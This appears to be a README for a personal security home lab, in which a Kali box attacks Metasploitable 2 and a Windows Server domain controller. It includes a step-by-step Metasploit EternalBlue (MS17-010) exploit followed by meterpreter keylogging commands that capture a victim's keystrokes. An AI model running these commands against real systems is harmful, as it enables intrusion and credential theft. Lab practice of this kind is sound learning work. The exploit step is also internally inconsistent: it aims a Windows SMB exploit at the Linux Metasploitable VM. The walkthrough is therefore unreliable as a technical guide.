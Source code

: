 # 🛠️ Home‑Lab Setup & Exploit Testing
Spin up a Windows + Linux playground, wire it for remote access, then unleash Nessus and Metasploit to prove your patch management actually works.

---

## What I built

| Host | OS / Role | Why it’s here |
|------|-----------|---------------|
| 🖥️ Desktop | **Windows 11** | Primary console + VMware Workstation Pro |
| 🐑 VM 1 | **Metasploitable 2** | Target‑rich environment for exploits |
| 🏢 VM 2 | **Windows Server (DC)** | Domain Controller + RDP test bed |
| 💻 Laptop | **Kali Linux** | Attack box running Nessus & Metasploit |

*Networking:* switched from **NAT → Bridged** to give every VM a routable IP for real‑world reachability.

---

## Key steps (TL;DR)

1. **Platform prep**  
   - Upgrade host to Win 11 → install VMware Pro  
   - Wipe HP laptop → fresh Kali install  

2. **VM deployment**  
   - Import Metasploitable & Server 2019 ISOs  
   - Enable RDP on DC; patch nothing (on purpose)

3. **Networking fix**  
   - Bridged adapters → no more port‑forward headaches  
   - Static IPs + inventory table in `ip-list.md`

4. **Port forwarding (when remote)**  
   ```txt
   Host Port 45001 → 3389 → Domain Controller  
   Host Port 45002 → 22   → Metasploitable
   ```  
   ```bash
   rdesktop <host_ip>:45001   # From Kali
   ```

5. **Exploit demo**  
   ```bash
   msfconsole
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS <Metasploitable IP>
   run
   meterpreter > keyscan_start
   # ...type in Notepad on victim...
   meterpreter > keyscan_dump
   ```

6. **Scan & validate**  
   - Nessus scan confirms MS17‑010  
   - Metasploit shell proves exploitability  
   - Document vulnerabilities + remediation plan

---

## Why this matters

- **Lab first, theory second** – you can’t secure what you can’t reach.  
- **Bridged ≠ NAT** – proper IPs make remote scans and RDP a breeze.  
- **Repeatable script** – next run will take minutes, not hours.

---

## What to try next

- Script the entire build with PowerShell + Bash.  
- Drop in a **honeypot** VM for attacker telemetry.  
- Layer Grafana + Prometheus for live monitoring.  
- Patch the DC, rerun Nessus, prove the vuln is gone.

---

## Lessons learned

> *“If you track every IP and write down every mistake, the exploit demo works on the first try—on stage, under pressure.”*

